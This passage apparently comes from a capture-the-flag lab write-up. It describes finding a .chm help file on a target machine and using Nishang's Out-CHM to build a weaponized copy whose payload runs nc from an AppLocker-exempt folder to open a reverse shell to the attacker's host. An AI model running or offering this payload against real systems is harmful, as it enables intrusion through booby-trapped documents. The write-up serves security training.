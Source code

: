     Regards,
    Sniper CEO.
    

In Chris’ Downloads folder, there’s a `doc.chm`:

    
    
    C:\Users\Chris\Downloads>dir
     Volume in drive C has no label.
     Volume Serial Number is 6A2B-2640
    
     Directory of C:\Users\Chris\Downloads
    
    04/11/2019  08:36 AM    <DIR>          .
    04/11/2019  08:36 AM    <DIR>          ..
    04/11/2019  08:36 AM            10,462 instructions.chm
                   1 File(s)         10,462 bytes
                   2 Dir(s)  17,685,372,928 bytes free
    

`.chm` files are Windows help files, so that could be the documentation that
the CEO was talking about. I’ll copy this back to a Windows VM and check it
out:

![image-20200327214532181](https://0xdfimages.gitlab.io/img/image-20200327214532181.png)

### Weaponize .chm

[Nishang](https://github.com/samratashok/nishang) has a tool, `Out-CHM`, which
makes weaponized `.chm` files. I’ll load it into my PowerShell session:

    
    
    PS > Import-Module .\Tools\nishang\Client\Out-CHM.ps1
    

Now I can call it. I’ll need to pass it the path the HTML Help Workshop (and I
can [install it](https://www.microsoft.com/en-
us/download/confirmation.aspx?id=21138) if it’s not already installed), and it
will write `doc.chm` in my current director. I’ll have it run `nc` out of an
AppLocker safe directory:

    
    
    PS > Out-CHM -Payload "\windows\system32\spool\drivers\color\nc64.exe -e cmd 10.10.14.6 443" -HHCPath "C:\Program Files (x86)\HTML Help Workshop"
    Microsoft HTML Help Compiler 4.74.8702
    
    Compiling c:\Tools\nishang\doc.chm
    
    
    Compile time: 0 minutes, 0 seconds
    2       Topics
    4       Local links
    4       Internet links
    0       Graphics
    
    
    Created c:\Tools\nishang\doc.chm, 13,458 bytes
    Compression increased file by 266 bytes.
    